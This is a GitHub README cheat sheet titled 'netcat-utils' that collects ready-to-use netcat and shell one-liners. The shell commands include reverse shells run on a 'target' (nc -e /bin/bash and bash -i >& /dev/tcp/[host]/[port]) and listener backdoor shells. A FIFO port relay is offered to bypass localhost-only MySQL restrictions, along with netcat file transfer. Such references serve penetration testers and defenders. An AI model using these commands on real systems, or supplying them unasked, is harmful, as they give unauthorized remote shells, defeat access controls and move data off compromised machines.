 # netcat-utils
Useful netcat commands such as Reverse Shells, Port Relays via FIFO, and others stuff.




***





### Listener ###
Listen for inbound connection over TCP. This can be used to receive reverse shell sessions.
```
nc -lv -p [port]
```
---




### Connections ###
Initiate an outbound connection over TCP to a `[host]` which is listening on that `[port]`.
```
nc [host] [port]
```
---



### Reverse Shells ###
Run the following commands on a target which attempt to connect over TCP to the `[host]`. Host must be listening on `[port]`, _see above_.
```
nc [host] [port] -e /bin/bash
nc [host] [port] -e /bin/sh
nc [host] [port] -e cmd.exe
```
---



### Backdoor Shells ###
Same commands as before but in this case the target creates a listener which serves up a shell to anyone connecting on that `[port]`.
```
nc -l -p [port] -e /bin/bash
nc -l -p [port] -e /bin/sh
nc -l -p [port] -e cmd.exe
```
---



### Reverse Shell without Netcat on Target ###
As with the previous reverse shells, the `host` should be listening on the `port` sepecified for the callback to be successful.
```
bash -i >& /dev/tcp/[host]/[port] 0>&1
sh -i >& /dev/tcp/[host]/[port] 0>&1
python -i >& /dev/tcp/[host]/[port] 0>&1
```
---



### Relay / Port Redirection ###

**Create FIFO**

First in First Out, also known as named pipes, created by using `mknod p`. The `p` flag == type FIFO.
```
mknod [pipe-name] p
```

**Relay**

Create a loopback which will relay traffic between `localhost:[Port-A]` and `localhost:[Port-B]` on the target, allowing inbound connections to `localhost:[Port-B]` to be directed at `[Port-A]`.
```
nc -l -p [Port-B] 0< [pipe-name] | nc localhost [Port-A] 1> [pipe-name]
```
First netcat is used to create a listener on `[Port-B]` which we will direct Stdin `0<` to the named-pipe. Then forward the output of this listener via the tranditional pipe to the netcat connection to `[Port-A]`. Direct whatever service is listening on `[Port-A]` Stdout `1>` to the named-pipe, which will send the response back through the listener.

**Examples:**

MySQL by default listens on Port 3306, this will fool mysqld into thinking the connecting user is `user@localhost`! Many web apps only permit users from localhost and communicate via loopback connections to backend databases while not exposing the port to the outside; this would bypass that allowing external mysql client sessions that appear to originate from localhost.

Target: `nc -l -p [Port-B] 0< [pipe-name] | nc 127.0.0.1 3306 1> [pipe-name]`

Connection: `mysql --port [Port-B] --username=[user] --password=[passwd]`

Unfortunately the default `secure_mysql_installation` option "Prevent root from outside" will still disable `root`@`localhost` to connect in this manor.


FIFO's can also be used to connect to shells.
```
nc -l -p [port] 0< [pipe-name] | bash -i 1> [pipe-name]
nc -l -p [port] 0< [pipe-name] | sh -i 1> [pipe-name]
nc -l -p [port] 0< [pipe-name] | python -i 1> [pipe-name]
```
---



### File Transfer ###
Files can be transmitted across a netcat session using Stdin/Stdout.

Destination: `nc -l -p [port] > /path/to/file`

Source: `nc [host] [port] < path/to/file`

